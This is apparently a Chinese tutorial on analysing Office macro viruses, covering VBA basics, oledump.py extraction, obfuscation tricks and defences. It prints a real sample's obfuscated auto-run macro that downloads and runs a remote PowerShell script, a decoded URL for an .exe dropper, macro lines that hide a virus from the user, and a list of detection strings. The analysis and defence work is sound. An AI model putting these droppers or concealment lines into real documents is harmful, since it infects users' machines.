[TOC]

## 前言

本系列文章将由浅入深对宏病毒进行全面的剖析。本系列文章共有三个部分，第一部分是入门篇，介绍的是基础理论知识，对宏病毒进行实例分析，介绍了宏病毒分析的技巧以及一些防治手段；第二部分是深入篇，我们会研究更底层的东西，解析Offcie文档、分析宏数据在文件中的存储方式并研究宏病毒处理的方式；第三部分是实战篇，不定期更新，分析一些有意思的宏病毒。

## 基础知识

宏病毒是一种常见的计算机病毒，寄存在文档或模板中，但是并不会直接感染可执行程序。其诞生于上世纪90年代，自其诞生之日，各种各样的宏病毒不断在网络上涌现。早期的宏病毒是病毒先驱者们展现高超技术的舞台，只感染文档文件，随着时间的推移，宏病毒的危害也越来越大，宏病毒不再只是感染文档文件，而成为了分发恶意程序的常规途经。宏病毒的执行简易隐蔽快速，一旦用户打开含有宏病毒的文档，其中的宏病毒就会被执行。


对于攻击者而言，宏病毒是一把利器，尤其是结合了社会工程学的宏病毒。如乌克兰电网事件（BlackEnergy），工作人员只是打开了一篇看似很正常的文档，然后便造成了无法挽回的损失。不只是BlackEnergy，近来肆虐的各种各样的勒索软件，都离不开Office宏的帮助。借助传统的宏病毒，一旦用户打开含有宏病毒的文档，其中的宏病毒就会被执行，释放并激活恶意软件

### 宏与宏病毒

宏（英文Macro），广义上的定义是：宏就是把一系列的指令组织成一独立的命令，类似C语言中#define宏定义，避免同一动作的一再重复；狭义上，宏特指office系列办公软件中的宏，Microsoft Office中对宏的定义为“宏就是能够组织在一起的，可以作为一个独立命令来执行的一系列Word 命令，它能使日常工作变得容易。”本文中提到的宏，采用了狭义的定义，即office办公软件中的宏。

使用office打开文档文件(demo1.doc)时，有时候我们会遇到如下图所示的“安全警告”，这说明该文档文件中含有宏，并且office软件设置了“宏禁用”功能。



这个时候，单击“启用内容”按钮，宏就会执行。



使用快捷键Alt+F11可以打开vb编辑器，查看宏代码：



本例中的宏很简单，其作用就是弹出一个对话框。

执行恶意功能的宏就是宏病毒。宏病毒是使用宏语言编写的恶意程序，存在于字处理文档、电子数据表格、数据库、演示文档等数据文件中，可以在office系列办公软件中运行，利用宏的功能将自己复制到其他数据文件中。宏病毒感染的是数据文件。宏病毒与传统的病毒有很大的不同，它不感染可执行文件，而是潜伏在Microsoft Office文档中，一旦用户打开含有宏的文档，其中的宏就会被执行。宏是使用VBA编写的，编写过程简单，任何人只需掌握一些基本的宏编写技能就可以编写出破坏力巨大的宏病毒。


宏病毒的强大是建立在强大的VBA组件的基础上的。同时，宏病毒与系统平台无关，任何计算机如果能够运行Microsoft Office办公软件，都有可能感染宏病毒。随着Microsoft Office系列办公软件成为电子文档的工业标准，Word，Excel和PowerPoint等已成为个人计算机和互联网上广泛使用的文档格式，宏病毒成为传播最广泛，危害最大的一类病毒。根据文档载体的不同，宏病毒可以细分为很多种，Word、Excel、Access、PowerPoint等都有想应的宏病毒。

### VB基础

宏是使用VB语言编写的，所以在进一步研究宏病毒前，我们必须掌握VB的基础知识。本文介绍的VB知识，只是VB的皮毛，以便于在接下来宏病毒分析过程中，我们可以迅速理清宏代码。打开demo3.doc，我们以其为例进行讲解。其代码如下：



```VB
Sub autoopen()

b

End Sub

Function b()

MsgBox ActiveDocument.BuiltInDocumentProperties(5)

End Function
```

#### sub与function

上述宏代码中，含有一个Sub和一个Function。sub和function都类似于C中的函数。sub在VB中被称为过程，function被称为函数；sub没有返回值，function有返回值；一段宏一定是从sub开始执行的。在demo3中定义了一个过程 autoopen()，“End Sub”表示这个过程的结束

#### VB基本函数

demo3 中“MsgBox ActiveDocument.BuiltInDocumentProperties(5)”调用了VB基本函数“MsgBox”，参数是"ActiveDocument.BuiltInDocumentProperties(5)"。这里的正确写法应该是“MsgBox(ActiveDocument.BuiltInDocumentProperties(5))”，但是VBA的容错率较高，不写括号，宏代码依然能够执行。即使我们将“MsgBox”写成“MSgbOx”，宏代码依然能够执行。一些宏病毒就是使用大小写混淆，增加病毒分析难度。除了MsgBox，VB中还有很多基本函数，各位可以百度“VB函数大全”。

#### 对象

VB中存在很多对象，如Application对象，Document对象，Adobd.stream对象等。对象实际上是代码和数据的组合，我们在使用对象时，要么使用对象的属性（就是数据），要么使用对象的方法（就是代码）。通过 “对象.属性/方法”的方式使用对象的属性/方法。ActiveDocument.BuiltInDocumentProperties(5)中就是使用了ActiveDocument对象的BuiltInDocumentProperties()方法，参数是5。其代表的内容是“文件属性-详细信息-备注”里的内容：



## 宏病毒实例分析

### 实例1

接下来，我将以demo2.doc为例，实例分析宏病毒，demo2是一个真实的宏病毒，请在虚拟机中分析。

打开demo2.doc，发现弹出了“安全警告”，文本中内容提示用户要点击“启用内容”才能看到文件内容，实际上这里是[社会工程学](http://www.ichunqiu.com/#profession)攻击，用户单击“启用内容”就会运行宏，并感染病毒：


ALT+F11打开VBA编辑器，查看宏代码。但是你会发现，此时工程里没有数据，这是因为我们没有单击“启用内容”，VBA工程还没有加载。单击“启用内容”，这个时候宏就已经运行了，再次查看VBA编辑器，弹出了要求输入密码的对话框。



除了输入密码，我们不能看到其他信息，看来这段宏被加密了，接下来我们就要祭出神器VBA_Password_Bypasser进行解密了。关闭demo2.doc        ，使用VBA_Password_Bypasser重新打开demo2.doc，再次打开VBA编辑器查看宏代码，宏代码一览无余(注意:这个软件需要注册才能绕过密码 我会在相关文件附上软件和序列号)：



```VB
Private Sub Document_Open()
Dim CGJKIYRSDGHJHGFFG As String
CGJKIYRSDGHJHGFFG = "cmd /K " + "pow" + "eR" & "sh" + "ell.e" + "x" + "e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('http://skycpa.in/file.php','%TEMP%\Y.ps1'); poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile -file %TEMP%\Y.ps1"
Shell CGJKIYRSDGHJHGFFG, 0
MsgBox ("Unreferenced library required")
End Sub
```

这段宏首先拼接了一段字符串CGJKIYRSDGHJHGFFG，这段字符串是一段命令，接下来就调用Shell() ，执行这段命令。但是CGJKIYRSDGHJHGFFG的内容经过混淆，我们没办法一眼看出执行了什么命令，我们可以改造宏代码，使用Msgbox将CGJKIYRSDGHJHGFFG这段命令打印出来：







现在就一目了然了，这段cmd命令执行了两段powershell命令，第一段powershell命令是从'http://skycpa.in/file.php'中下载文件，并另存为'%TEMP%\Y.ps1'，第二段powershell命令就是执行Y.ps1，关于Y.ps1的分析不属于宏病毒的范畴，这里就不做分析了。

### oledump.py

在之前的分析中，我们先启用宏，然后打开VBA编辑器分析宏代码。这个时候我们不仅可以直观的看到宏代码，还可以动态调试。但是，我们选择启用宏后，宏代码就会运行，如果存在恶意行为，恶意行为就会执行。这样的分析方式存在一定的风险，那么，有没有一种方式，不运行宏就能查看宏代码呢？当然有，那就是oledump.py

oledump.py是一个用于分析OLE文件（复合文件二进制格式）的程序，我们可以使用它提取文档中的宏代码。其查找基于二进制文件格式的文件中的内容的流程：

  1.读取文件流。

  2.识别可能包含要查找的内容的结构。

  3.通过第一个结构，找到下一节的位置。

  4.在流中转到该节。

  5.重复前面两个步骤，直到找到所需的内容。

  6.读取并分析内容。


接下来我们简单介绍一下oledump的使用，我们依然以demo2为例进行介绍：

运行：oledump.py  demo2.doc



这是oledump对doc文件的最基础的分析，显示了这个文件的Stream数据(在接下来的章节中我们会进行介绍Stream)，一共包含5段，其中A3这一段数据上标记了字母‘M’，表示这段数据中含有VBA宏(Macro）。

oledump.py有许多参数可以选择，使用oledump.py -m 可以查看oledump.py 的帮助信息，这里我们要用到的参数是-s和-v

-s 段号：选择上分析出的某一段来查看内容

-v     ：解压缩VBA宏

上面两个参数结合起来用就可以找出宏源码：

oledump.py -s A3 -v demo2.doc



可以看到宏代码被解析出来了。在实际分析时，-s后的参数可以选择‘a’，表示分析所有段的数据，还可以使用‘>’符号将宏代码数据存储在新文件中：



最后，再介绍一下 decoder_ay.py和-d参数，它可以将文件中的exe数据dump下来。有一些文档宏存储了exe数据，这个时候我们就可以使用下列命令，将文档中的exe数据导出：

oledump.py -s 14  -D decoder_ay.py -d 1.doc  >1.exe

如果我们只是想dump某一段数据，而不关心是不是exe数据，使用如下命令：

Oledump.py -s 段名 -d 文件名 >新文件名

## 宏病毒的分析技巧

### 自动执行

宏病毒分析的第一步是定位自动执行入口。宏病毒具有自动执行的特性，特别是含有AutoOpen的宏，一旦用户打开含有宏的文档，其中的宏就会被执行，而用户一无所知。宏病毒的激发机制有三种：利用自动运行的宏，修改Word命令和利用Document对象的事件。

宏病毒中常用的自动执行方法有两种：一种是用户执行某种操作时自动执行的宏，如Sub botton(),当用户单击文档中的按钮控件时，宏自动执行；另一种则是Auto自动执行，如Sub AutoOpen()和Sub AutoClose()，分别在文档打开和关闭时自动执行。

### 隐秘执行

宏病毒利用几行代码就可以实现隐秘，下列代码是从宏病毒样本1（MD5：f849544803995b98342415dd2e67180c）中提取的代码片段，宏病毒通过阻止弹出各类提示，防止用户发现宏正在运行来实现自我隐藏：

```VB
On Error Resume Next             '如果发生错误，不弹出错误对话框
Application.DisplayStatusBar = False  '进制显示状态栏
Options.SaveNormalPrompt = False    '修改公用模板时自动保存，不弹出提示
```

宏病毒自我隐藏还有一种方式，那就是屏蔽菜单按钮和快捷键，普通用户即使猜测到有宏正在运行，也无法取消正在执行中的宏，查看宏信息。下表是笔者总结的宏病毒采取的隐蔽执行的一些措施：

| 代码                                                | 措施                                      |
| --------------------------------------------------- | ----------------------------------------- |
| On Error Resume Next                                | 如果发生错误 不弹出错误对话框             |
| Application.DisplayStatusBar=False                  | 不显示状态栏 避免显示宏的运行状态         |
| Opition.SaveNormalPrompt=False                      | 修改公用模版时在后台自动保存 不给任何提示 |
| EnableCancelKey=wdCancelDisabled                    | 使不可以通过ESC键取消正在执行的宏         |
| Application.SreenUpdating=0                         | 不让屏幕更新 使病毒执行不影响计算机速度   |
| Application.DisplayAlerts=wdAlertsNone              | 不让Excel弹出报警信息                     |
| CommandBars("Tools").Controls("Marco").Enable=0     | 屏蔽工具菜单中的宏按钮                    |
| CommandBars("Marco").Controls("Security").Enable=0  | 屏蔽宏菜单中的安全性                      |
| CommandBars("Marco").Controls("Marco").Enable=0     | 屏蔽宏菜单中的宏                          |
| CommandBars("Tools").Controls("Customize").Enable=0 | 屏蔽工具菜单的自定义                      |
| CommandBars("View").Controls("Toolsbars").Enable=0  | 屏蔽视图宏菜单的工具栏                    |
| CommandBars("format").Controls("Object").Enable=0   | 屏蔽格式菜单的对象                        |

### 调用外部例程和命令执行

宏病毒的强大主要来自与对Windows API和外部例程的调用，通过对大量样本的分析，本文总结出一张宏病毒调用的外部例程表。

| 外部例程             | 介绍                                                         |
| -------------------- | ------------------------------------------------------------ |
| MSXML2.ServerXMLHTTP | Xmlhttp是一种浏览器对象， 可用于模拟http的GET和POST请求      |
| Net.WebClient        | 提供网络服务                                                 |
| Adodb.Stream         | Stream 流对象用于表示数据流。配合XMLHTTP服务使用Stream对象可以从网站上下载各种可执行程序 |
| Wscript.shell        | WScript.Shell是WshShell对象的ProgID，创建WshShell对象可以运行程序、操作注册表、创建快捷方式、访问系统文件夹、管理环境变量。 |
| Poweshell            | PowerShell.exe 是微软提供的一种命令行shell程序和脚本环境     |
| Application.Run      | 调用该函数，可以运行.exe文件                                 |
| WMI                  | 用户可以利用 WMI 管理计算机，在宏病毒中主要通过winmgmts:\\.\root\CIMV2隐藏启动进程 |
| Shell.Application    | 能够执行sehll命令                                            |

如图所示，使用Wscript.shell实现命令执行功能：



上表中Wscript.shell、Poweshell、Application.Run、Shell.Application这些外部例程都可以用来执行命令，除此之外，一些API如：Shell( )、CallWindowProc( )也常用于执行命令。

### 字符串隐写

宏病毒分析比较简单，这是因为任何能执行宏的用户都能查看宏源码，分析人员轻而易举就分析出宏病毒的行为。通过扫描宏中特征字符串，杀软也很容易检测出宏病毒。宏病毒的开发者们便想尽办法隐藏这些特征字符串，下面本文就对宏病毒中这些字符串的隐写方式进行分析。

#### Chr（）函数

Chr()，返回以数值表达式值为编码的字符（例如：Chr(70)返回字符‘F’）。使用Chr函数是最常见的字符串隐写技术,利用ascii码，逃避字符串扫描。如下列代码：

```VB
Nrh1INh1S5hGed = "h" & Chr(116) & Chr(61) & "t" & Chr(112) &Chr(58) & Chr(47) & Chr(59) & Chr(47) & Chr(99) & Chr(104) & Chr(97) & "t" & Chr(101) & Chr(97) & Chr(117) & Chr(45) & Chr(100) & Chr(60) & Chr(101) & Chr(115) & Chr(45) & Chr(105) & Chr(108) & "e" & Chr(115) & Chr(46) & Chr(61) & Chr(99) & Chr(111) & Chr(109) & Chr(47) & Chr(60) & Chr(52) & Chr(116) & Chr(102) & Chr(51) & Chr(51) & Chr(119) & Chr(47) & Chr(60) & Chr(119) & "4" & Chr(116) & Chr(52) & Chr(53) & Chr(51) & Chr(46) & Chr(59) & Chr(101) & Chr(61) & Chr(120) & Chr(101)
```

上列代码使用了大量的Chr函数，看似很复杂，实际上就只是一串字符串“ht=tp:/;/chateau-d<es-iles.=com/，4tf33w/<w4t453.;e=xe”。Nrh1INh1S5hGed字符串看着很像一个链接，但是中间多了几个字符，其实处理起来很简单，只要将多余字符删掉就好。将这串字符串命名为Nrh1INh1S5hGed也是为了混淆，但是对于宏病毒分析人员来说，这种混淆并没有增加分析难度，分析人员只需要 全选--查找--替换。

Chr（）函数还可以利用表达式，增加技术人员的分析难度：

Ndjs = Sgn(Asc(317 - 433) + 105）     

ATTH = Chr(Ndjs) + Chr(Ndjs + 12) + Chr(Ndjs + 12) + Chr(Ndjs + 8)

经过分析发现，上述代码的字符串是：“http：//”

#### Replace（）函数

Replace函数的作用就是替换字符串，返回一个新字符串，其中某个指定的子串被另一个子串替换。

承接上文，把Nrh1INh1S5hGed中多余字符去掉，这里使用Replace函数把多余字符替换为空

```VB
Nrh1INh1S5hGed = Replace(Replace(Replace(Nrh1INh1S5hGed,Chr(60), ""), Chr(61), ""), Chr(59), "")
```

处理之后：Nrh1INh1S5hGed=“[http://chateau-des-iles.com/4tf33w/w4t453.exe”](http://chateau-des-iles.com/4tf33w/w4t453.exe%E2%80%9D)

可以很清晰看出Nrh1INh1S5hGed是一个下载名为w4t453可执行文件的链接。可以猜测w4t453.exe是一个恶意程序，之后一定会执行w4t453.exe。在用户一无所知的情况下，宏已经完成了入侵工作。

#### CallByname 函数

CallByname函数允许使用一个字符串在运行时指定一个属性或方法。CallByName 函数的用法如下

```VB
 Result = CallByName(Object, ProcedureName, CallType, Arguments())
```

CallByName 的第一个参数包含要对其执行动作的对象名。第二个参数，ProcedureName，是一个字符串，包含将要调用的方法或属性过程名。CallType 参数包含一个常数，代表要调用的过程的类型：方法 (vbMethod)、property let (vbLet)、property get (vbGet)，或 property set (vbSet)。最后一个参数是可选的，它包含一个变量数组，数组中包含该过程的参数。

例如：CallByName Text1, "Move", vbMethod, 100, 100就相当于执行Text1.Move(100,10) 这种隐藏的函数执行增加了分析的难度。

CallByName的作用不仅仅在此，在下面的这个例子中，利用callByName，可以用脚本控制控件:

```VB
Dim obj As Object[/align]        Set obj = Me

       Set obj = CallByName(obj, "Text1", VbGet)

       Set obj = CallByName(obj, "Font", VbGet)

       CallByName obj, "Size", VbLet, 50

     '以上代码="Me.Text1.Font.Size = 50"

      Dim obj As Object

       Dim V As String

       Set obj = Me

       Set obj = CallByName(obj, "Text1", VbGet)

       Set obj = CallByName(obj, "Font", VbGet)

       V = CallByName(obj, "Size", VbGet)

       '以上代码="V = Me.Text1.Font.Size"
```

#### Alias替换函数名

Alias子句是一个可选的部分，用户可以通过它所标识的别名对动态库中的函数进行引用。

```VB
Public Declare Function clothed Lib "user32" Alias "GetUpdateRect" (prestigiation As Long, knightia As Long, otoscope As Long) As Boolean
```

如上例所示，clothed作为GetUpdateRect的别名，调用clothed函数相当于调用user32库里的GetUpdateRect函数。事实上喜欢使用别名的不仅仅是宏病毒制造者，普通的宏程序员也喜欢使用别名。使用别名的好处是比较明显的，一方面Visual Basic不允许调用以下划线为前缀的函数，然而在Win32 API函数中有大量C开发的函数可能以下划线开始。使用别名可以绕过这个限制。另外使用别名有利于用户命名标准统一。对于一些大小写敏感的函数名，使用别名可以改变函数的大小写。

#### 利用窗体、控件隐藏信息

控件在宏程序里很常见，有些宏病毒的制造者们便想到利用控件隐藏危险字符串。控件里存放着关键字符串，程序用到上述字符串时，只需要调用标签控件的caption属性。

控件的各个属性（name、caption、controtiptext、等）都可以成为危险字符串的藏身之所。而仅仅查看宏代码，分析者无法得知这些字符串内容，分析者必须进入编辑器查看窗体属性，这大大增加了分析的难度。

#### 利用文件属性

这种方式和利用窗体属性的方式类似，就是将一切能存储数据的地方利用起来。就像Demo3中读取文件详细信息中的备注

#### 恶意行为字符串

不同的宏病毒执行不同的恶意行为，但这些恶意行为是类似的，它们使用的代码往往是相似的。通过大量的样本分析，笔者总结了一些宏病毒执行危险操作时代码中含有的字符串，详见下表：

| 字符串          | 描述                                                         |
| --------------- | ------------------------------------------------------------ |
| http            | URL连接                                                      |
| CallByName      | 允许使用一个字符串在运行时指定一个属性或方法，许多宏病毒使用CallByName执行危险函数 |
| Powershell      | 可以执行脚本，运行.exe文件，可以执行base64的命令             |
| Winmgmts        | WinMgmt.exe是Windows管理服务，可以创建windows管理脚本        |
| Wscript         | 可以执行脚本命令                                             |
| Shell           | 可以执行脚本命令                                             |
| Environment     | 宏病毒用于获取系统环境变量                                   |
| Adodb.stream    | 用于处理二进制数据流或文本流                                 |
| Savetofile      | 结合Adodb.stream用于文件修改后保存                           |
| MSXML2          | 能够启动网络服务                                             |
| XMLHTTP         | 能够启动网络服务                                             |
| Application.Run | 可以运行.exe文件                                             |
| Download        | 文件下载                                                     |
| Write           | 文件写入                                                     |
| Get             | http中get请求                                                |
| Post            | http中post请求                                               |
| Response        | http中认识response回复                                       |
| Net             | 网络服务                                                     |
| WebClient       | 网络服务                                                     |
| Temp            | 常被宏病毒用于获取临时文件夹                                 |
| Process         | 启动进程                                                     |
| Cmd             | 执行控制台命令                                               |
| createObject    | 宏病毒常用于创建进行危险行为的对象                           |
| Comspec         | %ComSpec%一般指向你cmd.exe的路径                             |

## 宏病毒的防御手段

安装杀毒软件，打全系统补丁是预防计算机病毒的基本措施，当然也适用于宏病毒，除此这些常规手段之外，宏病毒还有专门的防治措施。

### 禁用宏

由于宏病毒的肆虐，Microsoft不得不在Office办公软件中提供了禁止宏的功能，用户只需要将其打开激活即可再次运行宏。以word2013为例，禁用宏的方法是：单击开发工具菜单下的“宏”，单击“宏安全性”，在随后的出现的对话框中选择“禁用所有宏，并发出通知”，如图所示：



这个方法一度被认为能防住所有的宏病毒，但是总会有0day能够绕过宏防护，禁用宏对于利用漏洞绕过宏禁用功能的宏病毒，仍然无能为力。而且禁用宏功能还有两个很大的缺陷：一是它拒绝了一切的宏执行，并不区分正常的宏和还是病毒宏，这会造成某些文档无法打开或出错；二是宏病毒防护无法阻止启动word时Autoexec.DOT中的宏和Normal.DOT中的宏自动执行。

### 越过自动宏

如果怀疑文档中存在宏病毒，可以在Office打开文档的时候，始终按住SHift键，将禁止存在的一起自动宏。这和禁用宏有异曲同工之妙，Shift键可以在退出时禁止任何AutoClose宏。这种方法的缺陷也很明显，它只能对付一时，当宏病毒利用其它菜单选项来实现破坏活动，这种方法就不再有效。

